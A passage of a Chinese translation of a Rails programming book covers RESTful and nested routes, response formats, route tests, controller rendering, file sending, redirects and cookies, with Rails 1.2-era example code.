这个语法需要一点时间来适应。它的意思是“我们想要添加一个名为`recent`的新action，通过HTTP GET调用。它适用于资源的集合——在本例中就是所有的文章。”

`:collection`选项在`map.resources`添加的标准路由集之上添加了以下路由。

| 方法 | URL路径 | Action | 辅助方法 |
| --- | --- | --- | --- |
| GET | /articles/recent | recent | recent_articles_url |

事实上，我们已经见过这种使用分号向URL追加特殊action的技术——`edit` action使用的是相同的机制。

你也可以为单个资源创建特殊的action；只需使用`:member`代替`:collection`。例如，我们可以创建将文章标记为“禁止发布”或“已发布”的action——“禁止发布”的文章在发布前是不可见的。

```
ActionController::Routing::Routes.draw do |map|
  map.resources :articles, :member => { :embargo => :put,
                                    :release => :put }
end
```

这会在`map.resources`添加的标准路由集之上添加以下路由。

| 方法 | URL路径 | Action | 辅助方法 |
| --- | --- | --- | --- |
| PUT | /articles/1/embargo | embargo | embargo_article_url(:id => 1) |
| PUT | /articles/1/release | release | release_article_url(:id => 1) |

也可以创建创建新资源的特殊action；使用`:new`，并传递与`:collection`和`:member`相同的`{ :action => :method }`哈希。例如，我们可能需要创建只包含标题和正文的文章——省略摘要。我们可以为此创建一个特殊的`shortform` action。

```
ActionController::Routing::Routes.draw do |map|
  map.resources :articles, :new => { :shortform => :post }
end
```

这会在`map.resources`添加的标准路由集之上添加以下路由。

| 方法 | URL路径 | Action | 辅助方法 |
| :--- | :--- | :--- | :--- |
| POST | /articles/new;shortform | shortform | shortform_new_article_url |

#### 嵌套资源

通常，我们的资源本身包含额外的资源集合。例如，我们可能希望允许人们对我们的文章发表评论。在这种情况下，每个评论都是一个资源，而评论的集合则与每个文章资源相关联。

Rails提供了一种方便且直观的方式来声明这类情况的路由：

```
Download restful2/config/routes.rb
ActionController::Routing::Routes.draw do |map|
  map.resources :articles do |article|
    article.resources :comments
  end
end
```

此路由定义了顶层的文章路由集，并额外为评论创建了一组子路由。因为评论资源出现在articles块内部，所以一个评论资源*必须*由一个文章资源限定。这意味着通往评论的路径必须始终以特定文章的路径为前缀。要获取id为99的文章中id为4的评论，你需要使用路径`/articles/99/comments/4`。

下页的图20.1展示了我们的配置生成的完整路由集。

我们可以扩展之前的文章应用来支持这些新路由。这次，我们将手动完成，而不是使用脚手架。首先，我们将为评论创建一个模型并添加一个迁移。

```
restful> ruby script/generate model comment
```

```
Download restful2/db/migrate/002_create_comments.rb
class CreateComments < ActiveRecord::Migration
  def self.up
    create_table :comments do |t|
      t.column :comment,    :text
      t.column :updated_at, :datetime
      t.column :article_id, :integer
    end
  end

  def self.down
    drop_table :comments
  end
end
```

图20.1：嵌套资源

| HTTP方法 | URL路径/ 辅助方法 | Action |
|---|---|---|
| ArticlesController中的Action | | |
| GET | /articles<br>articles_url | index |
| POST | /articles<br>articles_url | create |
| GET | /articles/new<br>new_article_url | new |
| GET | /articles/1<br>article_url(:id => 1) | show |
| PUT | /articles/1<br>article_url(:id => 1) | update |
| GET | /articles/1;edit<br>edit_article_url(:id => 1) | edit |
| DELETE | /articles/1<br>article_url(:id => 1) | destroy |
| CommentsController中的Action | | |
| GET | /articles/1/comments<br>comments_url(:article_id => 1) | index |
| POST | /articles/1/comments<br>comments_url(:article_id => 1) | create |
| GET | /articles/1/comments/new<br>new_comment_url(:article_id => 1) | new |
| GET | /articles/1/comments/99<br>comment_url(:article_id => 1, :id => 99) | show |
| PUT | /articles/1/comments/99<br>comment_url(:article_id => 1, :id => 99) | update |
| GET | /articles/1/comments/99;edit/<br>edit_comment_url(:article_id => 1, :id => 99) | edit |
| DELETE | /articles/1/comments/99<br>comment_url(:article_id => 1, :id => 99) | destroy |

[^5]: 注意我们如何将命名路由作为这些调用的参数。一旦你采用RESTful风格，命名路由就是必不可少的。


其次，我们需要告知文章模型它现在已关联评论。同时，我们也会在评论中添加返回文章的链接。

```ruby
class Article < ActiveRecord::Base
  has_many :comments
end
```

```ruby
class Comment < ActiveRecord::Base
  belongs_to :article
end
```

我们将更新文章的展示模板以显示所有评论，并添加一个允许发布新评论的链接。

```erb
<p><strong>标题：</strong>  <%=h @article.title %></p>
<p><strong>摘要：</strong>  <%=h @article.summary %></p>
<p><strong>内容：</strong>  <%=h @article.content %></p>

<% unless @article.comments.empty? %>
  <%= render :partial => "/comments/comment", :collection => @article.comments %>
<% end %>

<%= link_to "添加评论", new_comment_url(@article) %> |
<%= link_to '编辑', edit_article_path(@article) %> |
<%= link_to '返回', articles_path %>
```

这段代码展示了几个有趣的技术。我们使用局部模板来显示评论，但该模板位于 `app/views/comments` 目录中。我们通过在 `render` 调用中使用前导 `/` 和相对路径来告知 Rails 在那里查找。

代码还利用了路由辅助方法接受位置参数这一特性。与其这样写：

```ruby
new_comment_url(:article_id => @article.id)
```

我们可以利用 `:article` 字段是路由中第一个字段这一事实，这样写：

```ruby
new_comment_url(@article)
```

我们将创建一个 `CommentsController` 来管理评论资源。我们将赋予它与脚手架生成的文章控制器相同的操作，只是我们会省略 `index` 和 `show`，因为评论仅在文章的上下文中显示。

```ruby
restful> ruby script/generate controller comments new edit create update destroy
```

然而，这些操作的形式略有不同；因为评论仅在文章的上下文中被访问，我们在处理评论本身之前会先获取文章。我们还使用 `has_many` 声明的集合方法来再次确认我们仅处理属于当前文章的评论。

```ruby
class CommentsController < ApplicationController
  before_filter :find_article

  def new
    @comment = Comment.new
  end

  def edit
    @comment = @article.comments.find(params[:id])
  end

  def create
    @comment = Comment.new(params[:comment])
    if (@article.comments << @comment)
      redirect_to article_url(@article)
    else
      render :action => :new
    end
  end

  def update
    @comment = @article.comments.find(params[:id])
    if @comment.update_attributes(params[:comment])
      redirect_to article_url(@article)
    else
      render :action => :edit
    end
  end

  def destroy
    comment = @article.comments.find(params[:id].to_i)
    @article.comments.delete(comment)
    redirect_to article_url(@article)
  end

  private
  def find_article
    @article_id = params[:article_id]
    redirect_to articles_url unless @article_id
    @article = Article.find(@article_id)
  end
end
```

此应用程序的完整源代码（展示了评论的附加视图）可在线获取。

#### 选择数据表示

REST 架构的目标之一是将数据与其表示解耦。如果人类用户使用 URL 路径 `/articles` 来获取一些文章，他们应该看到格式精美的 HTML。如果应用程序请求相同的 URL，它可以选择接收代码友好的格式（例如 YAML、JSON 或 XML）的结果。

我们已经看到 Rails 如何在控制器的 `respond_to` 块中使用 HTTP Accept 头。然而，设置 Accept 头并不总是容易的（有时甚至完全不可能）。为了解决这个问题，Rails 1.2 允许你将想要的响应格式作为 URL 的一部分传递。为此，请在路由中设置一个 `:format` 参数，其值为你希望返回的 MIME 类型的文件扩展名。最简单的方法是在你的路由定义中添加一个名为 `:format` 的字段。

```ruby
map.store "/store/:action/:id.:format", :id => nil, :format => nil
```

因为句点（.）在路由定义中是分隔符，所以 `:format` 被视为另一个字段。因为我们给它一个 `nil` 的默认值，所以它是一个可选字段。

完成此操作后，我们可以在控制器中使用 `respond_to` 块，根据请求的格式选择响应类型。

```ruby
def show
  respond_to do |format|
    format.html
    format.xml { render :xml => @product.to_xml }
    format.yaml { render :text => @product.to_yaml }
  end
end
```

这样，对 `/store/show/1` 或 `/store/show/1.html` 的请求将返回 HTML 内容，而 `/store/show/1.xml` 将返回 XML，`/store/show/1.yaml` 将返回 YAML。你也可以将格式作为 HTTP 请求参数传递：

```
GET HTTP://pragprog.com/store/show/123?format=xml
```

`map.resources` 定义的路由默认启用了此功能。

处理不同的响应格式是 Rails 中人们仍在摸索的领域。尽管拥有一个能响应不同内容类型的单个控制器的想法似乎很吸引人，但现实却很棘手。特别是，事实证明错误处理可能很困难。虽然在错误发生时将用户重定向到表单并显示友好的提示消息是可以接受的，但在提供 XML 时你必须采用不同的策略。在决定将所有处理打包到单个控制器中之前，请仔细考虑你的应用程序架构。

基于资源的路由在 Rails 开发者中正获得广泛认可。许多人声称它大大简化了他们应用程序的编码。然而，它只是创建应用程序的一种方式，并不总是合适的。我建议在新应用程序中尝试它，但如果找不到让它工作的方法，也不必强迫自己使用它。

#### 测试路由

到目前为止，我们一直在使用 `script/console` 手动测试路由。不过，当应用程序准备上线时，我们可能需要更正式一些，包含验证路由按预期工作的单元测试。Rails 包含一些测试辅助方法，使这变得很容易。

##### `assert_generates(path, options, defaults={}, extras={}, message=nil)`

验证给定的选项集能生成指定的路径。

```ruby
def test_generates
  assert_generates("/store", :controller => "store", :action => "index")
  assert_generates("/store/list", :controller => "store", :action => "list")
  assert_generates("/store/add_to_cart/1",
                   { :controller => "store", :action => "add_to_cart",
                     :id => "1", :name => "dave" },
                   { :name => "dave"})
end
```

`extras` 参数用于告诉请求额外请求参数的名称和值（在前面代码的第三个断言中，这将是 `?name=dave`）。测试框架不会将这些作为字符串添加到生成的 URL 中；相反，它测试本应添加的值是否出现在 `extras` 哈希中。`default` 参数未使用。

### `assert_recognizes(options, path, extras={}, message=nil)**

验证路由给定一个路径时会返回特定的选项集。

```ruby
def test_recognizes
  # 检查默认的 index 操作是否生成
  assert_recognizes({"controller" => "store", "action" => "index"}, "/store")

  # 检查路由到某个操作
  assert_recognizes({"controller" => "store", "action" => "list"},
                   "/store/list")

  # 带参数的路由
  assert_recognizes({ "controller" => "store",
                      "action" => "add_to_cart",
                      "id" => "1" },
                    "/store/add_to_cart/1")

  # 带参数的路由
  assert_recognizes({ "controller" => "store",
                   "action" => "add_to_cart",
                   "id" => "1",
                   "name" => "dave" },
                  "/store/add_to_cart/1",
                  { "name" => "dave" } )      # 就像在 URL 后有 ?name=dave

  # 发起 post 请求
  assert_recognizes({ "controller" => "store",
                   "action" => "add_to_cart",
                   "id" => "1" },
                  { :path => "/store/add_to_cart/1", :method => :post })
end
```

`:conditions` 参数允许你指定基于请求 HTTP 动词的条件路由。你可以通过向 `assert_recognizes` 传递一个哈希（而不是字符串）作为第二个参数来测试这些路由。该哈希应包含两个元素：`:path` 包含传入的请求路径，`:method` 包含要使用的 HTTP 动词。

```ruby
def test_method_specific_routes
  assert_recognizes({"controller" => "store", "action" => "display_checkout_form"},
                    :path => "/store/checkout", :method => :get)
  assert_recognizes({"controller" => "store", "action" => "save_checkout_form"},
                    :path => "/store/checkout", :method => :post)
end
```

`extras` 参数再次包含额外的 URL 参数。在前面代码示例的第四个断言中，我们使用 `extras` 参数来验证，如果 URL 以 `?name=dave` 结尾，生成的 `params` 哈希将包含相应的值。⁷

##### `assert_routing(options, path, defaults={}, extras={}, message=nil)`

结合前两个断言，验证路径能生成选项，然后选项能生成路径。

```ruby
def test_routing
  assert_routing("/store", :controller => "store", :action => "index")
  assert_routing("/store/list", :controller => "store", :action => "list")
  assert_routing("/store/add_to_cart/1",
                 :controller => "store", :action => "add_to_cart", :id => "1")
end
```

在选项哈希中使用符号作为键、字符串作为值很重要。如果不这样做，将你的选项与路由返回的选项进行比较的断言将会失败。

7. 是的，你不能直接在 URL 本身上放置 `?name=dave`，这确实很奇怪。


# 第 21 章

## 动作控制器与 Rails

在前一章中，我们研究了动作控制器如何将传入的请求路由到应用程序中适当的代码。现在，让我们看看那段代码内部发生了什么。

### 21.1 动作方法

当控制器对象处理请求时，它会查找与传入动作同名的公共实例方法。如果找到，则调用该方法。如果没有找到，但控制器实现了 `method_missing`，则会调用该方法，并将动作名称作为第一个参数，一个空的参数列表作为第二个参数。如果没有可以调用的方法，控制器会查找一个以当前控制器和动作命名的模板。如果找到，该模板将直接呈现。如果这些情况都没有发生，则会生成“Unknown Action”错误。

默认情况下，控制器中的任何公共方法都可以作为动作方法被调用。你可以通过将特定方法设为受保护或私有，来防止它们作为动作被访问。如果由于某些原因你必须使控制器中的某个方法为公共方法，但又不想让它作为动作被访问，请使用 `hide_action` 来隐藏它。

```ruby
class OrderController < ApplicationController
  def create_order
    order = Order.new(params[:order])
    if check_credit(order)
      order.save
    else
      # ...
    end
  end

  hide_action :check_credit
  def check_credit(order)
    # ...
  end
end
```

如果你发现自己使用 `hide_action` 是因为你希望在一个控制器中共享非动作方法给另一个控制器使用，那么请考虑将这些方法移至单独的库中——你的控制器可能包含了过多的应用程序逻辑。

#### 控制器环境

控制器为动作（以及，由此延伸，为它们调用的视图）设置环境。在以前，这种环境是在实例变量（`@params`、`@request` 等）中建立的。现在这已被正式弃用——你应该使用下面列出的访问器方法。

**action_name**
当前正在处理的动作的名称。

**cookies**
与请求关联的 cookies。向此对象设置值会在响应发送时将 cookies 存储在浏览器中。我们将在第 436 页讨论 cookies。

**headers**
将在响应中使用的 HTTP 头哈希表。默认情况下，`Cache-Control` 设置为 `no-cache`。对于特殊用途的应用程序，你可能需要设置 `Content-Type` 头。请注意，你不应直接在头中设置 cookie 值——应使用 cookie API 来完成此操作。

**params**
一个类似于哈希的对象，包含请求参数（以及在路由过程中生成的伪参数）。它类似于哈希表，因为你可以使用符号或字符串来索引条目——`params[:id]` 和 `params['id']` 返回相同的值。惯用的 Rails 应用程序使用符号形式。

**request**
传入的请求对象。它包括以下属性：

-   **domain**，返回请求域名的最后两个组成部分。
-   **remote_ip**，以字符串形式返回远程 IP 地址。如果客户端在代理后面，该字符串可能包含多个地址。
-   **env**，请求的环境。你可以使用它来访问浏览器设置的值，例如 `request.env['HTTP_ACCEPT_LANGUAGE']`。
-   **method** 返回请求方法，为 `:delete`、`:get`、`:head`、`:post` 或 `:put` 之一。
-   **delete?**、**get?**、**head?**、**post?** 和 **put?** 根据请求方法返回 true 或 false。
-   **xml_http_request?** 和 **xhr?** 如果此请求是由 AJAX 辅助工具之一发出的，则返回 true。请注意，此参数独立于 method 参数。

```ruby
class BlogController < ApplicationController
  def add_user
    if request.get?
      @user = User.new
    else
      @user = User.new(params[:user])
      @user.created_from_ip = request.env["REMOTE_HOST"]
      if @user.save
        redirect_to_index("User #{@user.name} created")
      end
    end
  end
end
```

详情请参阅 ActionController::AbstractRequest 的文档。

**response**
响应对象，在处理请求期间填充。通常，此对象由 Rails 为你管理。正如我们将在第 450 页查看过滤器时看到的，我们有时会访问其内部进行特殊处理。

**session**
一个类似于哈希的对象，表示当前会话数据。我们将在第 438 页对其进行描述。

此外，在整个 Action Pack 中都可以使用一个日志记录器。我们将在第 244 页对其进行描述。

#### 响应用户

控制器工作的一部分是响应用户。基本上有四种方式。

-   最常见的方法是呈现模板。就 MVC 范式而言，模板就是视图，它获取控制器提供的信息，并利用这些信息生成对浏览器的响应。
-   控制器可以直接向浏览器返回字符串，而不调用视图。这相当少见，但可用于发送错误通知。
-   控制器可以不向浏览器返回任何内容。¹ 这在响应 AJAX 请求时有时会用到。
-   控制器可以向客户端发送其他数据（非 HTML）。这通常是某种下载（可能是 PDF 文档或文件内容）。

我们很快会更详细地讨论这些内容。

控制器在每次请求中恰好响应用户一次。这意味着在处理任何请求时，你应该只调用一次 `render`、`redirect_to` 或 `send_xxx` 方法。（第二次渲染会抛出 `DoubleRenderError` 异常。）未记录的方法 `erase_render_results` 会丢弃当前请求中先前渲染的效果，允许进行第二次渲染。使用风险自负。

由于控制器必须恰好响应一次，它会在完成处理请求之前检查是否已生成响应。如果没有，控制器会查找一个以控制器和动作命名的模板，并自动呈现它。这是渲染发生的最常见方式。你可能已经注意到，在我们购物车教程的大多数动作中，我们从未显式渲染任何内容。相反，我们的动作方法设置了视图的上下文并返回。控制器注意到没有进行渲染，并自动调用相应的模板。

你可以拥有多个同名但扩展名不同（`.rhtml`、`.rxml` 和 `.rjs`）的模板。如果你在渲染请求中未指定扩展名（或者 Rails 代表你发出渲染请求），它会按此处给出的顺序搜索模板（因此，如果你有一个 `.rhtml` 模板和一个 `.rjs` 模板，`render` 调用会找到 `.rhtml` 版本，除非你明确指定 `render(:file => "xxx.rjs")`）。²

##### 呈现模板

*模板*是定义我们应用程序响应内容的文件。Rails 开箱即支持三种模板格式：`rhtml`，即嵌入了 Ruby 代码的 HTML；`builder`，一种更具编程方式的 XML 内容构建方式；以及 `rjs`，用于生成 JavaScript。我们将从第 466 页开始讨论这些文件的内容。

按照约定，控制器 *control* 的动作 *action* 的模板将位于文件 `app/views/control/action.xxx`（其中 `xxx` 是 `rhtml`、`rxml` 或 `rjs` 之一）。名称中的 `app/views` 部分是默认值。可以通过设置来为整个应用程序覆盖它

```ruby
ActionController::Base.template_root = dir_path
```

`render` 方法是 Rails 中所有渲染的核心。它接受一个选项哈希，告诉它要渲染什么以及如何渲染。

在我们的控制器中编写如下代码是很诱人的。

```ruby
# 不要这样做
def update
  @user = User.find(params[:id])
  if @user.update_attributes(params[:user])
    render :action => :show
  end
  render :template => "fix_user_errors"
end
```

调用 `render`（和 `redirect_to`）的行为在某种程度上似乎自然会终止动作的处理。事实并非如此。在 `update_attributes` 成功的情况下，前面的代码将生成一个错误（因为 `render` 被调用了两次）。

让我们看看控制器中使用的渲染选项（我们将在第 510 页单独查看视图中的渲染）。

`render()`

没有覆盖参数时，`render` 方法渲染当前控制器和动作的默认模板。以下代码将渲染模板 `app/views/blog/index`。

```ruby
class BlogController < ApplicationController
  def index
    render
  end
end
```

以下代码也会（因为控制器的默认动作是在动作没有调用渲染时调用 `render`）。

```ruby
class BlogController < ApplicationController
  def index
  end
end
```

这个也会（因为如果没有定义动作方法，控制器会直接调用模板）。

```ruby
class BlogController < ApplicationController
end
```

---
¹ 事实上，控制器返回的是一组 HTTP 头，因为某种响应是预期的。
² 这里有一个不太为人知的例外。一旦 Rails 找到一个模板，它会缓存它。如果你在开发模式下，并且更改了模板的类型，Rails 可能找不到它，因为它会优先选择先前缓存的名称。你需要重启应用程序才能调用新模板。


##### 发送文件和其他数据

我们已经了解了在控制器中渲染模板和发送字符串。第三种响应类型是向客户端发送数据（通常，但不一定是文件内容）。

###### send_data

向客户端发送包含二进制数据的字符串。

```ruby
send_data(data, options...)
```

向客户端发送数据流。通常，浏览器会结合使用在选项中设置的内容类型和处置方式，来确定如何处理此数据。

```ruby
def sales_graph
  png_data = Sales.plot_for(Date.today.month)
  send_data(png_data, :type => "image/png", :disposition => "inline")
end
```

**选项：**

- `:disposition` 字符串：建议浏览器是应该内联显示文件（选项 inline）还是下载并保存（选项 attachment，默认）。
- `:filename` 字符串：建议浏览器在保存此数据时使用的默认文件名。
- `:status` 字符串：状态码（默认为 '200 OK'）。
- `:type` 字符串：内容类型，默认为 application/octet-stream。

###### send_file

向客户端发送文件的内容。

```ruby
send_file(path, options...)
```

将给定的文件发送给客户端。此方法设置 Content-Length、Content-Type、Content-Disposition 和 Content-Transfer-Encoding 头部。

**选项：**

| 选项 | 类型 | 描述 |
| :--- | :--- | :--- |
| :buffer_size | 数字 | 如果启用了流式传输（:stream 为 true），则每次写入浏览器发送的数据量。 |
| :disposition | 字符串 | 建议浏览器是应该内联显示文件（选项 inline）还是下载并保存（选项 attachment，默认）。 |
| :filename | 字符串 | 建议浏览器在保存文件时使用的默认文件名。如果未设置，则默认为 path 的文件名部分。 |
| :status | 字符串 | 状态码（默认为 "200 OK"）。 |
| :stream | true 或 false | 如果为 false，整个文件将被读入服务器内存并发送给客户端。否则，文件将按 :buffer_size 的大小分块读取并写入客户端。 |
| :type | 字符串 | 内容类型，默认为 application/octet-stream。 |

你可以使用控制器中的 `headers` 属性为任一 `send_` 方法设置额外的头部。

```ruby
def send_secret_file
  send_file("/files/secret_list")
  headers["Content-Description"] = "Top secret"
end
```

我们将在第 502 页开始展示如何上传文件。

##### 重定向

HTTP 重定向是由服务器响应请求而发送给客户端的。实际上它是在说，“我无法处理这个请求，但这里有个 URL 可以处理。” 重定向响应包含一个客户端接下来应该尝试的 URL，以及一些状态信息，说明此重定向是永久的（状态码 301）还是临时的（状态码 307）。重定向有时在网页重新组织时使用；访问旧位置页面的客户端将被转到该页面的新主页。更常见的是，Rails 应用程序使用重定向将请求的处理转交给其他某个操作。

重定向由浏览器在后台处理。通常，你唯一能知道自己被重定向的方式是看到轻微的延迟以及你正在查看的页面 URL 与你请求的 URL 不同。最后一点很重要——就浏览器而言，服务器的重定向与终端用户手动输入新的目标 URL 效果几乎相同。

重定向在编写行为良好的 Web 应用程序时变得很重要。

`render(:text => string)`

向客户端发送给定的字符串。不执行模板解释或 HTML 转义。

```ruby
class HappyController < ApplicationController
  def index
    render(:text => "Hello there!")
  end
end
```

`render(:inline => string, [:type => "rhtml"|"rxml"|"rjs"], [:locals => hash] )`

将字符串解释为给定类型模板的源代码，并将结果渲染回客户端。如果提供了 `:locals` 哈希，其内容将用于设置模板中局部变量的值。

以下代码在应用程序以开发模式运行时向控制器添加 `method_missing`。如果使用无效操作调用控制器，它将渲染一个内联模板来显示操作的名称和请求参数的格式化版本。

```ruby
class SomeController < ApplicationController

  if RAILS_ENV == "development"
    def method_missing(name, *args)
      render(:inline => %{
        <h2>Unknown action: #{name}</h2>
        Here are the request parameters:<br/>
        <%= debug(params) %> })
    end
  end
end
```

`render(:action => action_name)`

渲染此控制器中给定操作的模板。有时人们在应该使用重定向时使用了 `:action` 形式的 render——关于为什么这是个坏主意，请参阅第 433 页开始的讨论。

```ruby
def display_cart
  if @cart.empty?
    render(:action => :index)
  else
    # ...
  end
end
```

请注意，调用 `render(:action...)` 不会调用操作方法；它只是显示模板。如果模板需要实例变量，这些必须由调用 render 的方法设置好。

让我们再重复一遍，因为这是初学者常犯的错误：调用 `render(:action...)` 不会调用操作方法——它只是渲染该操作的默认模板。

`render(:file => path, [:use_full_path => true|false], [:locals => hash])`

渲染给定路径（必须包含文件扩展名）中的模板。默认情况下，这应该是模板的绝对路径，但如果 `:use_full_path` 选项为 `true`，视图将为你传入的路径添加模板基本路径前缀。模板基本路径在应用程序的配置中设置（在第 238 页描述）。如果指定了 `:locals` 哈希中的值，则用于设置模板中的局部变量。

`render(:template => name)`

渲染一个模板并安排将结果文本发送回客户端。`:template` 值必须包含控制器和操作部分的新名称，并用正斜杠分隔。以下代码将渲染模板 `app/views/blog/short_list`。

```ruby
class BlogController < ApplicationController
  def index
    render(:template => "blog/short_list")
  end
end
```

`render(:partial => name, ...)`

渲染局部模板。我们在第 510 页深入讨论局部模板。

`render(:nothing => true)`

什么都不返回——向浏览器发送空主体。

`render(:xml => stuff)`

将 `stuff` 渲染为文本，强制内容类型为 `application/xml`。

`render(:update) do |page| ... end`

将代码块作为 rjs 模板渲染，并传入页面对象。

```ruby
render(:update) do |page|
  page[:cart].replace_html :partial => 'cart', :object => @cart
  page[:cart].visual_effect :blind_down if @cart.total_items == 1
end
```

所有形式的 `render` 都接受可选的 `:status`、`:layout` 和 `:content_type` 参数。`:status` 参数用于设置 HTTP 响应中的状态头部。它默认为 "200 OK"。不要使用带有 3xx 状态的 render 来进行重定向；Rails 有一个专门的 `redirect_to` 方法用于此目的。

`:layout` 参数决定渲染结果是否被布局包装（我们在第 98 页首次遇到布局，并从第 506 页开始深入探讨）。如果参数为 `false`，则不应用布局。如果设置为 `nil` 或 `true`，则仅在当前操作有相关布局时才应用布局。如果 `:layout` 参数有一个字符串值，它将被用作渲染时要使用的布局名称。当 `:nothing` 选项生效时，永远不应用布局。

`:content_type` 参数允许你指定将在 Content-Type HTTP 头部中传递给浏览器的值。

有时，能够捕获原本会发送到浏览器的内容到一个字符串中很有用。`render_to_string` 方法接受与 render 相同的参数，但返回渲染结果为一个字符串——渲染不会存储在响应对象中，因此除非你采取一些额外步骤，否则不会发送给用户。调用 `render_to_string` 不算作真正的渲染：你可以在之后调用真正的 render 方法而不会得到 DoubleRender 错误。


让我们来看一个支持评论发布的简单博客应用。当用户发布评论后，我们的应用应该重新显示文章，很可能是在文章末尾显示新评论。人们很容易想用如下逻辑来实现：

```ruby
class BlogController
  def display
    @article = Article.find(params[:id])
  end

  def add_comment
    @article = Article.find(params[:id])
    comment  = Comment.new(params[:comment])
    @article.comments << comment
    if @article.save
      flash[:note] = "Thank you for your valuable comment"
    else
      flash[:note] = "We threw your worthless comment away"
    end
    # DON'T DO THIS
    render(:action => 'display')
  end
end
```

这里的意图很明显是在评论发布后显示文章。为此，开发者在 `add_comment` 方法末尾调用了 `render(:action=>'display')`。这会渲染 `display` 视图，将更新后的文章显示给终端用户。但请从浏览器的角度思考一下。它发送了一个以 `blog/add_comment` 结尾的URL，然后得到了一个索引列表作为响应。对浏览器而言，当前URL仍然是那个以 `blog/add_comment` 结尾的地址。这意味着，如果用户点击刷新或重新加载（也许是为了看看是否有人发布了新评论），`add_comment` URL 会再次被发送给应用。用户的本意是刷新显示内容，但应用看到的却是添加另一条评论的请求。在博客应用中，这种无意的重复提交很不方便。在在线商店中，这可能会造成经济损失。

在这些情况下，正确显示索引列表中已添加评论的方法是将浏览器重定向到 `display` 动作。我们使用 Rails 的 `redirect_to` 方法来实现。如果用户随后点击刷新，它将只是再次调用 `display` 动作，而不会添加另一条评论。

```ruby
def add_comment
  @article = Article.find(params[:id])
  comment = Comment.new(params[:comment])
  @article.comments << comment
  if @article.save
    flash[:note] = "Thank you for your valuable comment"
  else
    flash[:note] = "We threw your worthless comment away"
  end
end
```

```ruby
end
redirect_to(:action => 'display')
end
```

Rails 有一个简单而强大的重定向机制。它可以重定向到给定控制器中的一个动作（传递参数），重定向到一个URL（在当前服务器上或外部），或者重定向到上一页。让我们依次看看这三种形式。

###### redirect_to

重定向到一个动作。

```ruby
redirect_to(:action => ..., options...)
```

基于 `options` 哈希中的值向浏览器发送临时重定向。目标URL使用 `url_for` 生成，因此这种形式的 `redirect_to` 背后拥有 Rails 路由代码的所有智能。描述请参见第 **20.2** 节 *路由请求*，第 **394** 页。

###### redirect_to

重定向到一个URL。

```ruby
redirect_to(path)
```

重定向到给定的路径。如果路径不以协议（如 `http://`）开头，当前请求的协议和端口将被前置。此方法不对URL执行任何重写，因此不应用于创建旨在链接到应用中动作的路径（除非你使用 `url_for` 或命名路由URL生成器生成路径）。

```ruby
def save
  order = Order.new(params[:order])
  if order.save
    redirect_to :action => "display"
  else
    session[:error_count] ||= 0
    session[:error_count] += 1
    if session[:error_count] < 4
      flash[:notice] = "Please try again"
    else
      # Give up -- user is clearly struggling
      redirect_to("/help/order_entry.html")
    end
  end
end
```

###### redirect_to

重定向到引用来源。

```ruby
redirect_to(:back)
```

重定向到当前请求中 `HTTP_REFERER` 头给出的URL。

```ruby
def save_details
  unless params[:are_you_sure] == 'Y'
    redirect_to(:back)
  else
    ...
  end
end
```

默认情况下，所有重定向都被标记为临时性的（它们只会影响当前请求）。当重定向到URL时，你可能希望使重定向永久生效。在这种情况下，需要在响应头中相应地设置状态。

```ruby
headers["Status"] = "301 Moved Permanently"
redirect_to("http://my.new.home")
```

因为重定向方法向浏览器发送响应，所以适用于渲染方法的相同规则也适用——每个请求只能发出一个。

### 21.2 Cookie 和会话

Cookie 允许 Web 应用从浏览器会话中获得类似哈希的功能：你可以在客户端浏览器上存储命名的字符串，这些字符串会在后续请求中发送回你的应用。

这很重要，因为浏览器和 Web 服务器之间使用的协议 HTTP 是无状态的。Cookie 提供了一种克服此限制的方法，允许 Web 应用在请求之间维护数据。

Rails 将 Cookie 抽象在一个方便简单的接口背后。控制器属性 `cookies` 是一个类似哈希的对象，封装了 cookie 协议。当收到请求时，`cookies` 对象将被初始化为从浏览器发送到应用的 cookie 名称和值。在任何时候，应用都可以向 `cookies` 对象添加新的键/值对。这些将在请求处理完成后发送到浏览器。这些新值将在后续请求中对应用可用（受各种限制，稍后描述）。

这是一个简单的 Rails 控制器示例，它在用户的浏览器中存储一个 cookie 并重定向到另一个动作。请记住，重定向涉及与浏览器的往返，并且后续对应用的调用将创建一个新的控制器对象。新的动作从浏览器发送过来的 cookie 中恢复值并显示它。

```ruby
class CookiesController < ApplicationController
  def action_one
    cookies[:the_time] = Time.now.to_s
    redirect_to :action => "action_two"
  end

  def action_two
    cookie_value = cookies[:the_time]
    render(:text => "The cookie says it is #{cookie_value}")
  end
end
```

你必须传递一个字符串作为 cookie 值——不会执行隐式转换。如果你传递其他内容，可能会得到一个晦涩的错误，包含 *private method 'gsub' called...*。

浏览器为每个 cookie 存储一组少量选项：过期日期和时间、与 cookie 相关的路径以及 cookie 将被发送到的域。如果你通过给 `cookies[name]` 赋值来创建 cookie，你会得到这组选项的默认值：cookie 将适用于整个站点，它会在浏览器关闭时过期，并且它适用于执行设置的域。但是，可以通过传入一个哈希值而不是单个字符串来覆盖这些选项。（在此示例中，我们使用了很酷的 `#days.from_now` 扩展到 `Fixnum`。这在第 **15** 章 *Active Support*，第 **248** 页有描述。）

```ruby
cookies[:marsupial] = { :value    => "wombat",
                       :expires  => 30.days.from_now,
                       :path     => "/store" }
```

有效的选项包括 `:domain`、`:expires`、`:path`、`:secure` 和 `:value`。`:domain` 和 `:path` 选项决定了 cookie 的相关性——如果 cookie 路径匹配请求路径的开头部分，并且 cookie 的域匹配请求的域的尾部，浏览器就会将 cookie 发送回服务器。`:expires` 选项设置了 cookie 的生命周期。它可以是绝对时间，在这种情况下，浏览器会将 cookie 存储在磁盘上，并在时间到达时将其删除³；或者是一个空字符串，在这种情况下，浏览器会将其存储在内存中，并在浏览会话结束时将其删除。如果没有给出过期时间，则视同为空字符串。最后，`:secure` 选项告诉浏览器仅在请求使用 `https://` 时才发回 cookie。

使用 cookie 的问题是，有些用户不喜欢它们，并在浏览器中禁用了 cookie 支持。你需要设计你的应用使其

> 3. 这个时间是绝对的，在创建 cookie 时设置。如果你的应用需要设置一个 cookie，使其在用户上次发送请求后的若干分钟后过期，你需要在每次请求时重置 cookie，或者（更好的是）将会话过期时间保存在服务器上的会话数据中并在那里更新它。


Cookies 适合在用户浏览器上存储小段字符串，但对于更大规模、更结构化的数据则不太适用。此时你需要使用会话。

#### Rails 会话

